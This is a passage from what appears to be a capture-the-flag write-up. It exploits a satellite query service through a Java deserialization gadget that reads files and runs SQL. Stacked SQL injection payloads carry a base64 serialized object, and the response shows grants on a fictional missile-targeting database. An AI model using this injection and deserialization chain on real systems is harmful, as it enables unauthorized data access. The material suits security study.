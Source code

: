                         return "SQL Error: " + sqle.toString();
                    }
                }
            } else {
                Path path = Paths.get(pathOrStatement);
                try {
                    if (Files.notExists(path)) {
                        return "Path does not exist.";
                    } else if (Files.isDirectory(path)) {
                        // Use try-with-resources to ensure the stream is closed after use
                        try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                            return walk.skip(1) // skip the directory itself
                                    .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                    .collect(Collectors.joining("\n"));
                        }
                    } else {
                        // Assume it's a readable file
                        return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                    }
                } catch (IOException e) {
                    return "Error reading path: " + e.toString();
                }
            }
        }
        
        public String getpathOrStatement() {
            return pathOrStatement;
        }
    }
    ```

Using this, you can check your permissions again through the new java serialized object.<br>

Create serialized object.

```
java -jar Serialize-1.0-SNAPSHOT.jar "SHOW GRANTS;" true false
```

Use serialized object.

```
; INSERT satellite_query SET object=FROM_BASE64('rO0ABXNyAB9TYXRlbGxpdGVRdWVyeUZpbGVGb2xkZXJVdGlsaXR5EtT2jQ6zkssCAANaAAdpc1F1ZXJ5WgAIaXNVcGRhdGVMAA9wYXRoT3JTdGF0ZW1lbnR0ABJMamF2YS9sYW5nL1N0cmluZzt4cAEAdAAMU0hPVyBHUkFOVFM7')
```

Check response.

```
; SELECT * FROM satellite_query;
```

Response intercepted by wireshark.

```
object: ... | results: [...,{"Grants for targeter_admin@%":"GRANT SELECT, UPDATE ON `missile_targeting_system`.`pointing_mode` TO `targeter_admin`@`%`"},...]
```

